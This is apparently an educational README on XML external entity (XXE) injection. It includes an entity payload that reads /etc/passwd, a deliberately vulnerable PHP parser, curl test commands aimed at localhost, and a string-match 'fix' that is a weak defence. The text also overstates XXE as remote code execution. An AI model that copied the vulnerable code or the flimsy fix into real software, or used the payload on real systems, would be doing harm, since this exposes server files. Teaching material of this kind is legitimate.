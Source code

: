 # XXE Vulnerablity Example
A XXE Vulnerabiliy allows the attacker to execute remote code usando the System Entities of a XML Document

### A XML Entity

A XML Entity is similar to a variable in a programming lenguages allowing to the document to safe and load information in variables, the System Entities read data from the system.

```
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///etc/passwd"> // Read the content of /etc/passwd
]>
<foo>&xxe;</foo>
```

### Vulnerable Code

http://localhost/Examples-of-Web-Vulnerabilities/XXE/xxe.php

This code shows the content of the XML Document in the post request

```
<?php
/* Display PHP Errors */
ini_set('display_errors', 1);
error_reporting(E_ALL);

/* Create a DOM Document */
$dom = new DOMDocument();

/* Get the XML loaded in the POST Requests */
$dom->loadXML(file_get_contents('php://input'), LIBXML_NOENT | LIBXML_DTDLOAD);

/* Convert the XML document into a SimpleXMLDocument*/
$parsed = simplexml_import_dom($dom);

/* Shows the result */
echo $parsed;
?>
```

To send a file to the website you can use the curl command

```
curl -X POST http://localhost/Examples-of-Web-Vulnerabilities/XXE/xxe.php  -H "Content-Type: text/xml; charset=UTF-8" --data-binary @safe.xml
```

![alt text](./images/xxe_safe_example.png)

If you send a XML with System Entities you can get the system files.

```
curl -X POST http://localhost/Examples-of-Web-Vulnerabilities/XXE/xxe.php  -H "Content-Type: text/xml; charset=UTF-8" --data-binary @xxe_payload_passwords.xml
```
![alt text](./images/xxe_passwd.png)

### Secure Code

To elimite this vulnerability you must stop the execution if the XML contains a Entity

```
/* If the XML Document contains entities finish the execution */
if (strpos(file_get_contents('php://input'), "<!ENTITY") !== false){
    die("No se permiten entidades externas");
}
```

Send the Passwd payload

```
curl -X POST http://localhost/Examples-of-Web-Vulnerabilities/XXE/xxe_secured.php  -H "Content-Type: text/xml; charset=UTF-8" --data-binary @xxe_payload_passwords.xml
```

![alt text](./images/fail_xxe_passwd.png)

